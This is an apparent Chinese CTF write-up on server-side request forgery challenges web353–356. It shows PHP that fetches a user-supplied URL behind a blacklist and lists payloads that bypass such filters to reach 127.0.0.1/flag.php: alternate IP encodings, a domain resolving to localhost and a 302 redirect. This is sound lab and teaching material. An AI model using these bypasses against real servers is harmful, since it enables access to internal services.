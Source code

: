 ```php
}
else{
    die('hacker');
}
?
```

同上,秒了
还可以
`CIDR：url=http://127.127.127.127/flag.php`
`url=http://0/flag.php`
`url=http://0.0.0.0/flag.php`
`http://0/`                 # 0在window下代表0.0.0.0，而在liunx下代表127.0.0.1
`http://[0:0:0:0:0:ffff:127.0.0.1]/`    # 在liunx下可用，window测试了下不行
`http://[::]:80/`           # 在liunx下可用，window测试了下不行
`http://127。0。0。1/`       # 用中文句号绕过
`http://①②⑦.⓪.⓪.①`
`http://127.1/`
`http://127.00000.00000.001/` # 0的数量多一点少一点都没影响，最后还是会指向127.0.0.1

### web354

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|1|0|。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?>
```

- 域名跳转`url=http://sudo.cc/flag.php``http://sudo.cc`这个域名就是指向`127.0.0.1`

- 302跳转

`header("Location:http://127.0.0.1/flag.php");`

### 限制长度

web355 web356

```php
解析一个 URL 并返回一个关联数组，包含在 URL 中出现的各种组成部分
数组中可能的键有以下几种：
scheme - 如 http
host
port
user
pass
path
```